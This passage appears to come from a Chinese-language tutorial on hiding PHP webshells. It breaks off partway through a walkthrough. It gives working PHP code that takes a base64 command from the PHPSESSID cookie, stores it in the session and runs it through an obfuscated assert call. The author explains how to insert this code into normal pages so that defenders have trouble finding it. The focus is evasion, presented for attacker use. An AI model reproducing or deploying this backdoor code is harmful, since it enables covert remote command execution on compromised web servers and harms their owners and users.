 <img src=".\图片\Snipaste_2023-04-26_17-33-42.png" alt="Snipaste_2023-04-26_17-33-42" style="zoom:80%;" />

可以看到已经执行成功了，可以看到这个迷惑去非常强，如果不仔细排查是不容易发现的，由于webshell的session和网站本身业务并没有关系，所以这个PHPSESSID可以随意修改

### 2.Session

session的传参方式其实算是一种间接传产方式，由于session的内容是需要通过源码设置的，并不能想cookie一样直接在请求头中修改，因此需要准备两个文件：

- 一个是将输入的参数传入session
- 另一个就是将session中的内容取出并执行命令



给session传入参数：

```php
<?php
session_start();
$_SESSION['dmeo']=base64_decode($_COOKIE["PHPSESSID"]);
```

取出session内容并执行，其实下面的代码是可以直接插入到正常页面中的，增加迷惑性，因为一般正常页面返回的html代码是比较多的，如果我们将内容回显的正常页面当中是比较难发现的：

```php
<?php
session_start();
$a = "a";
$s = "s";
$c=$a.$s."sert";
$c($_SESSION['dmeo']);
```



在test.php下通过cookie添加session，注意这个PHPSESSID的值其实**就是一个session文件**，每当有一个新的sessionid都会生成一个新的session文件，因此这个文件名我们是可以随意修改的，在这里的sessionid不但是文件名，而且也是我们的base64加密后的命令，这里只需要了解一下即可



先访问 test.php 写入恶意 session 文件到服务器：